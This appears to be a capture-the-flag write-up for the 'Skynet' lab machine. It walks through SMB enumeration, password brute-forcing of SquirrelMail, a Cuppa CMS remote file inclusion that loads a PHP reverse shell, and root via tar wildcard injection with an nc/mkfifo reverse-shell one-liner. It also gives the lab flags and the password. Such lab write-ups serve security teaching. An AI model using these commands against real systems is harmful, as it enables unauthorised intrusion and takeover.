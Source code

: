 # Information

Name: Skynet

Difficulty: Easy

Description:
A vulnerabile terminator themed linux machine.
gobuster, smb, rfi

## Recon

**Search for open ports using nmap.**

Port and service scan with nmap:

![image](https://user-images.githubusercontent.com/43668197/140099687-fb9977ce-d14d-48ba-90bb-74d843409847.png)

We have a web server on port 80, SMB on ports 139 and 445, pop3 on 110, and imap on 143.

The first thing to do when there is a webserver is to run automated enumeration such as dirsearch or gobuster while manually looking over the site.

Not much to see on the initial page. So while waiting for dirsearch to complete I look at what other port is likely to be vulnerabile and run enum4linux to check out that SMB.

Discovered info on enum4linux:

`user:[milesdyson] rid:[0x3e8]`

```
|    Share Enumeration on 10.10.87.165    |
 ========================================= 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```
If we get the password for `milesdyson` account later we will have to check back here. For now lets see what is in `anonymous` share.

```
┌──(root💀kali)-[/home/kali/Downloads]
└─# smbclient //10.10.87.165/anonymous           
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 11:04:00 2020
  ..                                  D        0  Tue Sep 17 03:20:17 2019
  attention.txt                       N      163  Tue Sep 17 23:04:59 2019
  logs                                D        0  Wed Sep 18 00:42:16 2019
```

```
└─# cat attention.txt 
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

Not much to go on here. Lets take a look at the logs.

```
└─# cat log1.txt     
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```
Nothing in `log2.txt` or `log3.txt` but `log1.txt` looks promising. Maybe a list of possible passwords? Running hydra against this list doesn't appear to work so i've hit a dead end there.

Back to checking on dirsearch findings.

![image](https://user-images.githubusercontent.com/43668197/140105587-e14f04c9-e919-4dc7-a3c3-d20584946119.png)

`squirrelmail` looks interesting. Let's go check it out!

![image](https://user-images.githubusercontent.com/43668197/140106674-1266dd32-14cf-459d-ab42-ffa519b4024d.png)

The page source reveals version info `SquirrelMail version 1.4.23`. I attempt to log in and capture the request in burp to send to intruder and try the `log1.txt` file there.

![image](https://user-images.githubusercontent.com/43668197/140141018-9e79d6fb-84df-4342-a7fa-4326631ce700.png)

Success!

**What is Miles password for his emails?**

cyborg007haloterminator

![image](https://user-images.githubusercontent.com/43668197/140145478-c1ea8514-472c-476b-85ad-ee82a7c102c0.png)

Logging in I find out the password to his samba. Time to check there now!

![image](https://user-images.githubusercontent.com/43668197/140149710-78d9511f-cb0f-4b95-bc39-514120812ca9.png)

Within the `notes` directory there is a file called `important.txt`

![image](https://user-images.githubusercontent.com/43668197/140151234-ef982994-516f-418d-be09-3e377b5fefda.png)

**What is the hidden directory?**

/45kra24zxs28v3yd

![image](https://user-images.githubusercontent.com/43668197/140153175-83cb76a6-4374-40c7-a85a-f797b16432c6.png)

This leads us to the personal page of Miles Dyson, but not much else to see here. Time to try enumerating this newly found directory.

Here I found a login page for Cuppa CMS. 

![image](https://user-images.githubusercontent.com/43668197/140156654-6d76b54b-8453-4856-8b9b-af1fbb4f09be.png)


# Initial Exploitation

No version info to be found here but a search on `searchsploit cuppa` reveals a single exploit. I copy the file over to my working directory and have a look.

![image](https://user-images.githubusercontent.com/43668197/140161824-0da233bf-0e87-471b-a1fa-c06f1e2924b2.png)

File Inclusion. This will be easy to check for real quickly.

`http://10.10.87.165/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`

![image](https://user-images.githubusercontent.com/43668197/140162327-b6db75ef-3030-47e2-95c2-d6ef6f53c96f.png)

Success! 

**What is the vulnerability called when you can include a remote file for malicious purposes?**

remote file inclusion 

![image](https://user-images.githubusercontent.com/43668197/140164989-13a6cd2d-b716-48d8-b64f-968060b712f6.png)

Using this information I upload my own php reverse shell to the server and get in.

`http://10.10.87.165/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://ip:8000/php-reverse-shell.php`

![image](https://user-images.githubusercontent.com/43668197/140165141-6fda0620-ef48-4b3a-99e4-20071538618b.png)

We are only `www-data` but have access to the user flag in `/home/milesdyson/user.txt`

**What is the user flag?**

7ce5c2109a40f958099283600a9ae807

# Privilege Escalation

It's time to go for that root flag.

`python3 -m http.server` on attacker system.
`wget http://ip:8000/linpeas.sh` on victim.

![image](https://user-images.githubusercontent.com/43668197/140166467-22df7435-c374-4bf0-8ce5-9e9c5170c691.png)

Theres a cron job here owned by root that we have access to. 

![image](https://user-images.githubusercontent.com/43668197/140166741-b4ef6b7e-cf80-4be6-a3a0-1d5fdde44bb2.png)

This creates a backup of everything in `/var/www/html.`

To get root all we need to do is:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc attacker-ip 1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```

![image](https://user-images.githubusercontent.com/43668197/140167717-5599fb82-a712-49c1-907a-af76bfef6c55.png)

**What is the root flag?**

3f0372db24753accc7179a282cd6a949
